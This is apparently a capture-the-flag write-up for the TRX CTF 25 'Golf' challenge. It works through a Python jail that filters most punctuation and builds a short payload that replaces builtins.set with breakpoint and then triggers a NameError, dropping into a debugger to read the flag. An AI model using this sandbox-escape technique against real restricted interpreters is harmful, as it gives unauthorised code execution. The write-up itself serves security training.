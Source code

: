 ```yaml
---
title: TRX CTF 25 - Golf
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- misc
- pyjail
authors:
- salvatore.abello
---
```


## Overview

We're given a file named chall.py, let's take a look at its content

```py
#!/usr/bin/env python3.13
if(c:=input()).isascii()*~-any(x in(c)for(x)in'!"#\'()*+-:<>@[]\\_{}'):exec(c[:43])
```

This is obviously a pyjail, and our goal is to read the flag from a file. First, let's rewrite this code in a more understandable way:

```py
#!/usr/bin/env python3.13

code = input()

if code.isascii() and not any(x in code for x in '!"#\'()*+-:<>@[]\\_{}'):
    exec(code[:43])
```

So that means we can only use the following characters ```?.,|^/`;=&~$%```. Fortunately for us, built-in functions are not erased, so we can still import modules and execute certain operations.

## Main Idea
The payload must be extremely short. Spawning a shell with so few characters is a challenging task, especially since we cannot directly call functions. To bypass this restriction, we can search for gadgets inside Python that will be triggered when an exception occurs.

The shortest way to trigger an exception is by referencing an undefined variable:

```py
>>> x
Traceback (most recent call last):
  File "<python-input-5>", line 1, in <module>
    x
NameError: name 'x' is not defined
```

Now we can try to overwrite some builtins to see if they're being called before throwing the exception. Our goal is to find a function that is invoked with no arguments so that we can overwrite it with `breakpoint`. A good candidate is `set`. Let's try overwriting it:

```py
import builtins;builtins.set = breakpoint;a

# Output:
  File "/slop.py", line 1, in <module>
    import builtins;builtins.set = breakpoint;a
NameError: name 'a' is not defined
```

This is strange. We know that `breakpoint` is being called because if we overwrite `set` with `print`, we can observe values and newlines being printed.

The `breakpoint` function imports the `pdb` module, which will  import other modules. To prevent `set` from being called before we intend it to, we must first import `pdb`.

## Final payload

```py
import pdb,builtins;builtins.set = breakpoint;a
```

This payload is still too long, so we have to shorten it:

```py
import pdb,builtins as e;e.set=breakpoint;a
```

This successfully breaks out of the jail and allows us to get the flag.